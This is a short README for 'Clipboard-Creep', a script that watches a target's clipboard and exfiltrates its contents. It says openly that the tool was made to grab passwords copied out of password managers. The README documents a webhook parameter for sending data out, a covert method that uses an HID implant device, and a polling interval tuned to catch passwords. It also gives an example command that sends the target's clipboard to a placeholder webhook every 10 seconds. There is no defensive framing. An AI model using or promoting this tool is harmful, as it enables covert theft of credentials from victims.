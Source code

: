 # Clipboard-Creep #
Clipboard-Creep is a basic script which tracks the users clipboard and exfiltrates it contents. It was created to get access to passwords copied out of password managers, but might be useful in general.


## Usage ##
### Webhook ###
The paramter webhook where data gets send to. Define the URL simply after the paramter and get the incoming clipboard content.

### CovertExfil ###
This method required an HIDX poc to be successfully imported on the system. In addition to that, an OMG Elite device with actived HIDX is required. (This method is seen as a work in progress POC)

### Sleep ###
The paramter sleep defines delay between every observation of the targets clipboard. A default of 12 seconds was choosen to capture potential passwords, in clipboards of password managers.

### EXAMPLE ###
Output the targets clipboard into the console, every 12 seconds.
```Clipboard-Creep```

### EXAMPLE ###
Exfiltrate the targets clipboard content to a defined webhook every 10 seconds.
```Clipboard-Creep -Webhook "https://example.com/" -Sleep 10```

![alt text](https://github.com/0i41E/ClipBoard-Creep/blob/main/ClipBoard-Creep/media/clippy.png)
